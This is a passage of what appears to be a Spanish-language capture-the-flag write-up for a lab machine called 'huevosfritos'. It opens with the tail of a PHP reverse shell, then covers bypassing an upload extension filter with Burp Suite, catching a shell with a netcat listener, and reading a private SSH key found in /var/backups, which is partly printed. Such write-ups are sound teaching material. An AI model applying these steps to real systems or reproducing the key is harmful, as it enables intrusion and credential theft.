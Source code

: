```
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

Nos damos cuenta que tenemos que aplicar un bypass para cargar nuestro archivo ya que hay extensiones que no nos permite subir.

![Captura de pantalla 2024-11-09 162046](https://github.com/user-attachments/assets/6171cdd2-7607-425f-8559-448e770dd2f4)

Usaremos burpsuite para probar diferentes extensiones de forma eficiente.

![Captura de pantalla 2024-11-09 171228](https://github.com/user-attachments/assets/6e620460-1983-49e2-b932-08f1c056264c)

Si investigamos en internet las diferentes extensiones de php que podemos utilizar, podemos hacer un pequeño diccionario de extensiones para probar una a una desde el intruder. Luego revisar cuales fueron recibidas por el servidor.

![Captura de pantalla 2024-11-09 171845](https://github.com/user-attachments/assets/1108fb12-65ba-4c9e-b39b-c57fc8203f9a)

![Captura de pantalla 2024-11-09 172123](https://github.com/user-attachments/assets/cd990744-9e4e-40a4-a87b-24d748b896db)

----------------------------------------------------------------------------------------------------------------------------------------------

**Explotación** 🔥

Ahora que sabemos cuales son las extensiones de php que recibe el servidor y haberlas subido con burpsuite, podemos iniciar con la conexión para entrar a la maquina.

Nos ponemos a la escucha.

```
nc -lvnp 5000
```

Hacemos clic en el archivo recibido y obtenemos una shell

![Captura de pantalla 2024-11-09 172602](https://github.com/user-attachments/assets/fa121f90-bf45-4d50-8a8c-a76695af674f)

![Captura de pantalla 2024-11-09 173455](https://github.com/user-attachments/assets/195b3cbe-df88-4df4-9c4b-af859ea59826)

Luego de una busqueda para escalar privilegios encontramos un archivo llamado **.cositas** en /var/backups que contiene el id_rsa del usuario huevosfritos, el cual podemos ver en el /etc/passwd

```
www-data@huevosfritos:/var/backups$ ls -la
total 36
drwxr-xr-x  2 root root  4096 Nov  9 21:23 .
drwxr-xr-x 12 root root  4096 Jun 15 17:37 ..
-rw-r--r--  1 root root  3434 Jun 16 12:32 .cositas
-rw-r--r--  1 root root 16063 Jun 16 12:06 apt.extended_states.0
-rw-r--r--  1 root root   851 Jun 16 11:01 apt.extended_states.1.gz
-rw-r--r--  1 root root   792 Jun 15 17:38 apt.extended_states.2.gz
www-data@huevosfritos:/var/backups$ cat .cositas
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABD1RqMErj
q/NVKM18nXgLlUAAAAEAAAAAEAAAIXAAAAB3NzaC1yc2EAAAADAQABAAACAQCuyjKx/nBc
tBsV+dTQ1dO7A4HvF5kQzwu++31DcxjoNLgaA5jiuGhzvF1TWCV7BHjUCrZqK+7F+uCWZr
9xv0Ei56dWvPcRuz22+6PT+2nDOhn/XVCEZR83AioEJcM9pWStB5kjGkHkLVkIkmR4Ah3o
mHhruYBvdXgYsHqw77gBWq6a13fnm9Qci3xS2eQORUdIQrdI0WpbLIUg84EVAl0sndnFli
4j+FX50k3+9sA4tNyiLWzjrRy1kIWWKZDtZt8iTo+gzk53lVp46DUfAu/CkaXTo8/3fUg4
```